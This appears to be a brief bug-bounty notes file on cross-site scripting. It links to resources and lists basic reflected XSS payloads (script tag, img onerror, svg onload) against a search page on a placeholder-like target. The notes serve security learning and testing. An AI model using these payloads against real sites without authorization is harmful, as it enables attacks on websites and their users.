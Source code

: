 # Cross-Site Scripting (XSS)
1. [Finding XSS using Web Archive](https://github.com/djmahe4/bug-bounty/blob/main/XSS/Wayback.md)
## Reflected XSS
1. ```https://www.target.net/inc.search_ney.php```>```<script>alert()</script>```,```<img src=x onerror=alert()>```,```<svg onload=alert()>``` >[link](https://medium.com/@osamaashraf1233/reflected-cross-site-scripting-in-search-functionality-d584593b966f)
